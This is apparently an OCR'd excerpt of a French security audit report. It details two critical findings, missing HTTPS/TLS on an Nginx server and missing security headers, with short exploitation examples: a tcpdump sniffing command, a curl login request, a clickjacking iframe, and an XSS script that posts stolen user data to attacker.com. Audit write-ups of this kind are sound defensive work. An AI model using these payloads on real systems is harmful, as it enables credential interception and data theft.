 
### 🔴 **CRIT-002 : Absence de HTTPS/TLS Bout-en-Bout**

**Impact :** **CRITIQUE** - Interception des données sensibles  
**CVSS Score :** 8.5/10

#### **Détails**
```nginx
# Configuration Nginx actuelle - HTTP SEULEMENT
server {
    listen 8080;  # ❌ HTTP non sécurisé
    server_name _;
    # Aucune redirection HTTPS
    # Aucun certificat TLS configuré
}
```

#### **Données Exposées**
- 🔓 Tokens JWT transmis en clair
- 🔓 Mots de passe de connexion interceptables
- 🔓 Données utilisateurs non chiffrées en transit
- 🔓 Cookies de session vulnérables au vol

#### **Exploitation**
```bash
# Man-in-the-Middle Attack
tcpdump -i any -A 'port 8080' | grep -E '([REDACTED]

# Session Hijacking
curl -v http://localhost:8080/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","[REDACTED]
```

---

### 🔴 **CRIT-003 : Headers de Sécurité Incomplets**

**Impact :** **ÉLEVÉ** - Attaques XSS et Clickjacking  
**CVSS Score :** 7.8/10

#### **Headers Manquants Critiques**
```http
❌ Content-Security-Policy: [ABSENT]
❌ Referrer-Policy: [ABSENT] 
❌ Permissions-Policy: [ABSENT]
❌ Expect-CT: [ABSENT]
⚠️  Strict-Transport-Security: Présent mais HTTPS absent
```

#### **Exploitation Possible**
```html
<!-- XSS via CSP manquante -->
<script>
  // Injection de scripts malveillants possible
  fetch('/api/users/me').then(r => r.json())
    .then(data => fetch('https://attacker.com/steal', {
      method: 'POST', body: JSON.stringify(data)
    }));
</script>

<!-- Clickjacking via X-Frame-Options seul insuffisant -->
<iframe src="http://localhost:8080/admin" style="opacity:0.1"></iframe>
```

---